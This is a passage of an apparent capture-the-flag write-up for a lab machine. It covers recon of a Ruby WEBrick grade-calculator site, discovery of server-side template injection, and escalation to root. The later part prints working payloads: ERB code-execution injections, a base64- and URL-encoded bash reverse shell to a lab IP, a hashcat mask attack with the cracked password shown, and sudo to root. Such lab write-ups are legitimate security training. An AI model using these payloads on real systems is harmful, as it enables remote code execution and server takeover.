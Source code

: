Startign with nmap 

![](../attachments/Pasted%20image%2020240428172105.png)

![](../attachments/Pasted%20image%2020240428172547.png)

the website dashboard

checked the wappalyzer to find the technologies website is using but couldn't find any 
I tried directory fuzzing 

Found this at the bottom of the website 
![](../attachments/Pasted%20image%2020240428172356.png)

![](../attachments/Pasted%20image%2020240428172442.png)

![](../attachments/Pasted%20image%2020240428172517.png)
we got another info that susan is sysadmin 

we can see this in the about us and there might me a vulnerability on secure coding
![](../attachments/Pasted%20image%2020240428172611.png)

there is a input field in the website , there might be a input validation vulnerbility

let's do some rearch on the technologies the website is using WEBrick 
![](../attachments/Pasted%20image%2020240428172643.png)

but there is no information about vulnerbilities
![](../attachments/Pasted%20image%2020240428172712.png)


the above is the robots.txt file we got something intresting 

now we've gatherd information available in the website the next part will be testing the inputs

![](../attachments/Pasted%20image%2020240428172824.png)

i did burpsuite scan to get more information about the vulnerbilities and the results are 

![](../attachments/Pasted%20image%2020240428172841.png)

to know how to perform a scan in burpsuite refer to [[scanning with burp scanner]]
so i confirmed that there is a way to bypass the input in the calculator

after adding single '  i got this result 
![](../attachments/Pasted%20image%2020240428173049.png)

after bit of research i came to know that it is a SSTI vulnerbility (server side template injection)
refer [[SSTI vulnerbility]] 

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

search for ruby payloads in this website

![](../attachments/Pasted%20image%2020240428173117.png)


let's try some payloads and see what happens
![](../attachments/Pasted%20image%2020240428173215.png)

we've got same result let's keep trying
to encode select the characters and do ctrl+u to do url encoding
![](../attachments/Pasted%20image%2020240428173655.png)

i've multiplied 7* 7 and i got the result 49 so <%= 7* 7 %> payload works 

now let's add a linux command to thi payload to see if it works 

![](../attachments/Pasted%20image%2020240428173754.png)

we got susan as the username if we used whoami comamnd here

let's do ls and pwd to knwo the direcotries and present directory
to execute commands use  ` 'these 

![](../attachments/Pasted%20image%2020240428173826.png)

we got some details

using revshells.com website i created a python payload and gave me shell access

![](../attachments/Pasted%20image%2020240428173912.png)

We can generate payload manually on our terminal refer to [[#Generate Payload]]

![](../attachments/Pasted%20image%2020240428174443.png)

to get neat terminal we did 
python3 -c 'import pty; pty.spawn("/bin/bash")'


we got the user flag now

![](../attachments/Pasted%20image%2020240428174552.png)

![](../attachments/Pasted%20image%2020240428174705.png)

cracking password with hash cat  using this command
```
hashcat -m 1400 <hashhere> -a 3 susan_nasus_?d?d?d?d?d?d?d?d?d
```

![](../attachments/Pasted%20image%2020240428174743.png)
refer [[Hashcat]] to learn using hashacat

after sometime we finally cracked hashcat password 
susan_nasus_413759210

![](../attachments/Pasted%20image%2020240428174954.png)


using sudo bash we switched to root user and got root flag
![](../attachments/Pasted%20image%2020240428175215.png)


### Generate Payload

Using hURL to encode and decode payloads demonstrates how we can mess around with data to take advantage of weaknesses in web applications.

Specifically, the payload we’re making for the Weighted Grade Calculator app is made to run a reverse shell command. This way, we can exploit any possible vulnerabilities that let us run code on the server’s side.

```
┌──(kali㉿kali)-[~]
└─$ hURL -B "bash -i >& /dev/tcp/10.10.14.213/7373 0>&1"

Original       :: bash -i >& /dev/tcp/10.10.14.213/7373 0>&1                                                                                                                                                     
base64 ENcoded :: YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMTMvNzM3MyAwPiYx

┌──(kali㉿kali)-[~]
└─$ hURL -U "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMTMvNzM3MyAwPiYx"

Original    :: YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMTMvNzM3MyAwPiYx                                                                                                                                          
URL ENcoded :: YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC4yMTMvNzM3MyAwPiYx
```

```
category1=a%0A<%25%3Dsystem("ping+-c1+$myIP");%25>
```
the above is the another paylaod from the write up 
